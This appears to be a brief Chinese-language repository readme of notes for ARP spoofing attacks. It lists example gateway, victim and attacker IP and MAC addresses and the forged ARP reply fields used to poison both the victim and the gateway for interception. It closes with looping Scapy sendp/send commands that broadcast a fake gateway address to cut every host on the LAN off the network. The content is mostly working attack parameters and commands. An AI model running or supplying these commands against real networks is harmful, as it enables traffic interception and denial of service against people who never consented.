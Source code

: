 # Network-Protocols-attack-arp

网关ip （192.168.1.1）

网关MAC （f4:83:cd:96:3d:78）      

受害者ip（192.168.1.102）

受害者MAC（d0:17:c2:17:ed:c8）

攻击者IP（192.168.1.128）

攻击者MAC（00:0c:29:c5:f2:44）

欺骗主机

hwdst=d0:17:c2:17:ed:c8 （发给102MAC）

hwsrc=00:0c:29:c5:f2:44 （假冒MAC）

op=2               

psrc=192.168.1.1        （假冒ip） 

pdst=192.168.1.102      （发给102）



欺骗网关

hwdst='f4:83:cd:96:3d:78' （发给网关MAC）

hwsrc='00:0c:29:c5:f2:44' （假冒MAC）

op=2

psrc='192.168.1.102'       (假冒ip)

pdst='192.168.1.1'        （发给网关）



广播让所有人断网

hwdst='ff:ff:ff:ff:ff:ff'

hwsrc='00:11:22:33:44:55'

op=2

psrc='192.168.1.1'

sendp(ARP(hwdst='ff:ff:ff:ff:ff:ff',hwsrc='00:11:22:33:44:55',psrc='192.168.1.1',op=2)，loop=1)

sendp(Ether(dst='ff:ff:ff:ff:ff:ff')/ARP(hwsrc='00:11:22:33:44:55',psrc='192.168.1.1',op=2),loop=1)

##出现报错

sendp(Ether(dst='ff:ff:ff:ff:ff:ff')/ARP(hwsrc='00:11:22:33:44:55',psrc='192.168.1.1',op=2),loop=1)

send(ARP(hwdst='ff:ff:ff:ff:ff:ff',hwsrc='00:11:22:33:44:55',psrc='192.168.1.1',op=2),loop=1)
